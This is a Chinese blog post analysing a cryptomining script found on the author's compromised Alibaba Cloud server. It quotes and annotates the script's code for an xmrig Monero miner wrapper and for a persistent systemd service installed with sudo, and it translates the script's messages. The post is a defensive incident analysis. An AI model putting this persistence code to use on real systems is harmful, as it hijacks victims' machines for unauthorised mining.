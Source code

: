 # 记上次黑客入侵阿里云主机 —— 代码分析（上）

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)

## bk.sh，推测是靶机脚本(注入service部分)

### `cat >/tmp/c3pool_miner.service <<EOL` 注入设置脚本后台启动等

#### EOL注入脚本文件

参考信息源：

* [知乎专栏-heredoc入门](https://zhuanlan.zhihu.com/p/93993398)
* [linux265-pidof命令](https://linux265.com/course/linux-command-pidof.html)
* [linux265-nice命令](https://linux265.com/course/linux-command-nice.html)

`<<EOL EOL`创建与书写任意格式文本及代码。`pidof xxx`为查看xxx程序的进程号。nice命令调度进程的优先级，根据教程资料来看，黑客的代码语法还有些问题。不过，基本大意是非xmrig进程就直接低优先级。

```
cat >$HOME/c3pool/miner.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice $HOME/c3pool/xmrig \$*
else
  echo ""
fi
EOL
```

#### service内容解读

参考信息源：

* [博客园-Linux 下的两个特殊的文件 -- /dev/null 和 /dev/zero 简介及对比](https://www.cnblogs.com/lishihai/p/7986565.html)
* [csdn-&>/dev/null表示的意思](https://blog.csdn.net/heybeaman/article/details/89500337)
* [Linux *.service文件详解](https://blog.csdn.net/weixin_44352521/article/details/126679172)
* [journalctl基本介绍](https://blog.csdn.net/weixin_45537987/article/details/106762104)

`xxx 2>dev/null`屏蔽错误输出。`>/dev/null 2>&1`什么回显都不用。


```
# 判断有没有 systemctl 这命令 
  if ! type systemctl >/dev/null; then
    echo ""
	echo ""
    /bin/bash $HOME/c3pool/miner.sh --config=$HOME/c3pool/config_background.json >/dev/null 2>&1
    echo "ERROR: This script requires \"systemctl\" systemd utility to work correctly."
    echo "Please move to a more modern Linux distribution or setup miner activation after reboot yourself if possible."

  else
# 生成挖矿服务配置
    echo "[*] Creating c3pool_miner systemd service"
# 以下为注入配置
    cat >/tmp/c3pool_miner.service <<EOL
[Unit]  # 这个字段给出服务描述、启动顺序和依赖关系
Description=Monero miner service # 描述信息，挖矿服务

[Service] # 这个字段主要给出启动、重启、停止的策略行为
# 定义启动进程时执行的命令
ExecStart=$HOME/c3pool/xmrig --config=$HOME/c3pool/config.json 
# 不管什么原因退出都会重启
Restart=always
# nice 10进程数值
Nice=10
CPUWeight=1

[Install] # 该字段定义如何安装，以及开机自启。
# Systemd有默认的启动 Target，就是 multi-user.target，即开机启动。
# 表示该服务所在的服务组,multi-user服务组。
WantedBy=multi-user.target
EOL

# 将tmp目录注入的服务配置移动到系统进程服务配置里去
    sudo mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
    echo ""
	echo ""
# 
    sudo killall xmrig 2>/dev/null
    sudo systemctl daemon-reload
# 启用挖矿服务，并开始挖矿    
    sudo systemctl enable c3pool_miner.service
    sudo systemctl start c3pool_miner.service
# 要查看矿工服务日志，请运行 "sudo journalctl -u c3pool_miner -f"命令 
    echo "To see miner service logs run \"sudo journalctl -u c3pool_miner -f\" command"
	echo ""
  fi
```

## “echo”及“#”打印及注释信息收集

### echo

"echo"部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

### “#”（全部为机翻）

打印问候语；命令行参数；检查先决条件

```
# printing greetings
# command line arguments
# checking prerequisites
```

计算端口；印刷的意图；开始做事：准备矿工

```
# calculating port
# printing intentions
# start doing stuff: preparing miner
```

准备脚本

```
# preparing script
```

准备脚本后台工作和重启时的工作

```
# preparing script background work and work under reboot
```
